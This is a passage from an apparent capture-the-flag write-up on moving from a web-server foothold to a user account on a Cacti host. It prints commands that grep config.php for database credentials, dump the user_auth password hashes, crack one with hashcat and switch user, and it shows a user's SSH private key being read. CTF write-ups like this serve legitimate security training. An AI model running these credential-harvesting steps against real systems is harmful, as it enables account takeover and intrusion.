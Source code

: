 In this case we are now www-data, so our first mission would be to get a proper login into the system with one of the normal users. In this case, i noticed another user in the cacti web page, so i tried accessing his credentials.

```bash
$ cat config.php | grep data
 * Make sure these values reflect your actual database/host/user/password
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cactiuser';
$database_password = 'cactiuser';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
#$rdatabase_type     = 'mysql';
#$rdatabase_default  = 'cacti';
#$rdatabase_hostname = 'localhost';
#$rdatabase_username = 'cactiuser';
#$rdatabase_password = 'cactiuser';
#$rdatabase_port     = '3306';
#$rdatabase_retries  = 5;
#$rdatabase_ssl      = false;
#$rdatabase_ssl_key  = '';
#$rdatabase_ssl_cert = '';
#$rdatabase_ssl_ca   = '';
 * Save sessions to a database for load balancing
 * Optional parameter to define a data input whitelist command string. This
 * data input command string.
 * are defined in lib/database.php
 * in the database.  For valid values, see CACTI_LANGUAGE_HANDLER
```

with this we have access to the database credentials for cacti:

```bash
$ mysql -u cactiuser -pcactiuser -D cacti -e "SELECT * FROM user_auth;"
```

| **username** | **hash**                                                       |
| ------------ | -------------------------------------------------------------- |
| admin        | `$2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G` |
| guest        | `$2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu` |
| marcus       | `$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK` |
Turns out that marcus hash can be cracked by using hashcat and rockyou, after which we obtain his password: `12345678910`. We can now change users in the reverse shell.

```bash
$ su marcus
Password: 12345678910
```

Turns out that ssh only allows for public key authentication in this computer, so what we do is get his private key in order to be able to log in using ssh. 

```bash
$ cat /home/marcus/.ssh/id_rsa
...
```

We now can log in normally as [[marcus]].